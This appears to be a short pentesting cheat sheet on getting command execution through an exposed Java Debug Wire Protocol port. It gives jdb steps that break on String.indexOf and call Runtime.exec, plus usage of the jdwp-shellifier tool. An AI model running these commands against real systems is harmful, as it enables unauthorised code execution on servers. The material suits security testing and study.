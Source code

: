 Java Debug Wire Protocol (JDWP)
===============================

`JWDP` is the protocol used for communication between a debugger and a Java app (JVM).


## Manual exploitation
It's possible to execute shell commands using `jdb`:

```bash
jdb -attach 8000
```

Then you need to find a good java thread to stop in and execute you command. It
appears that the method `indexOf` of the `String` class is a good candidate:

```bash
trace go methods
# wait that the jdb dies
stop in java.lang.String().indexOf(int)
print new java.lang.Runtime().exec("<cmd>")
```

This should execute you command with the privilege of the Java application. But
be careful, the manual method often fails.


## jdwp-shellifier
`jdwp-shellifier` is an exploitation tool to exploit `JWDP`. It's available on
[github](https://github.com/IOActive/jdwp-shellifier).

Again we use the `indexOf` method to break on, it's possible to use an other one.

```bash
git clone https://github.com/IOActive/jdwp-shellifier
cd jdwp-shellifier
python jdwp-shellifier.py -t <ip> - p <port> --break-on "java.lang.String.indexOf" --cmd "<cmd>"
```
